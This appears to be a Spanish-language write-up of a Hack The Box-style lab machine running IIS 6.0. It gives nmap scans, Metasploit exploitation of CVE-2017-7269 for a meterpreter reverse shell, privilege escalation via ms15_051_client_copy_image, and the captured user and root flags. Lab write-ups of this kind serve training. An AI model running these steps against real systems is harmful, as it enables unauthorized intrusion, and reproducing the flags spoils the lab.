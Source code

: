 
![[ 20250720125841.png]]

# NMAP

primero realizamos un escaneo básico de nmap

```bash
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.182.8 -oG allPorts
```

ahora realizamos un segundo escaneo con scripts básicos de nmap para sacar servicios y puertos

```bash 
nmap -p80 -sCV 10.129.182.8 -oN targeted
```

![[ 20250720130200.png]]

aqui vemos el servicio y version del puerto 80 en este caso `Microsoft IIS httpd 6.0`

buscamos en google para ver que encontramos 

![[ 20250720130254.png]]

aqui podemos ver que la maquina es vulnerable al  `CVE-2017-7269`

por lo que vamos a tratar de explotar la vulnerabilidad con metasploit

# metasploit

abrimos la terminal de metasploit 

```bash
msfdb run
```

hacemos una busqueda de exploits con la vulnerabilidad

```bash
search CVE-2017-7269
```

![[ 20250720130510.png]]

utilizamos el exploit encontrado

```bash
use 0
```

vamos a cambiar las opciones 

```bash
options
```

-  RHOSTS - IP VCTIMA
- LHOST - NUESTRA IP
- (OPCIONAL) LPORT - PUERTO A ELEGIR DE NUESTO SISTEMA 
	-hay veces que los sistemas bloquean el puerto 4444 que es el que usa metasploit por defecto por lo que a veces es mejor cambiarlo

```bash
set PARAMETRO DATA
```

EJEMPLO:

```bash
set RHOSTS 10.129.182.8
```

y lanzamos el exploit 

```bash
epxloit
```

![[ 20250720130753.png]]

conseguimos shell como meterpreter

Al tratar de entrar en la carpeta de administrador vemos que no tenemos permisos

![[ 20250720130822.png]]

# escalada de privilegios

Tenemos que migrar hacia un servicio que nos de permisos de administrador.

Lo primero que haremos será tratar de conseguir una ruta de escalada de privilegios lo haremos usando la herramienta 

```bash
run post/multi/recon/local_exploit_suggester 
```

Esta herramienta hará un escaneo de vulnerabilidades para escalada de privilegios en el localhosts de la maquina victima

![[ 20250720131113.png]]

aqui nos sugiere utilizar algunos exploits 

para poder utilizarlos tendremos que migrar a algún servicio con permisos para ello utilizaremos `ps` para ver que servicios están activos

```bash
ps
```

![[ 20250720131527.png]]

en mi caso utilizare este con ID 1896

para migrar haremos el comando:

```bash
migrate 1896
```

realizaremos un background para dejar la sesion suspendida y poder utilizarla después

```bash
background
```

En la maquina grandpa que tiene la misma vulnerabilidad utilizamos el modulo `exploit/windows/local/ms14_070_tcpip_ioctl `
para cambiar un poco y ver como de funcionales son el resto de módulos en esta maquina utilizaremos el `exploit/windows/local/ms15_051_client_copy_image`
ambos módulos funcionan por lo que la elección de uno u otro es por preferencia del usuario en este caso. en otros casos puede que solo funcione uno por lo que debemos probar con todos los módulos recomendados hasta que uno sea efectivo

 ```bash
 use exploit/windows/local/ms15_051_client_copy_image
```

cambiamos los parámetros

-  RHOSTS - IP VCTIMA
-  SESSION - Sesion de meterpreter suspendida si habéis seguido los pasos será la numero 1
```bash
set SESSION 1
```


lanzamos el exploit

```bash
exploit
```

![[ 20250720132103.png]]

y obtenemos meterpreter con privilegios

# Flags

## User 

![[ 20250720132212.png]]

la flag esta en el directorio : C:\Documents and Settings\Lakis\Desktop

user : 700c5dc163014e22b3e408f8703f67d1

## Root

![[ 20250720132305.png]]

la flag esta en el directorio : C:\Documents and Settings\Administrator\Desktop

root : aa4beed1c0584445ab463a6747bd06e9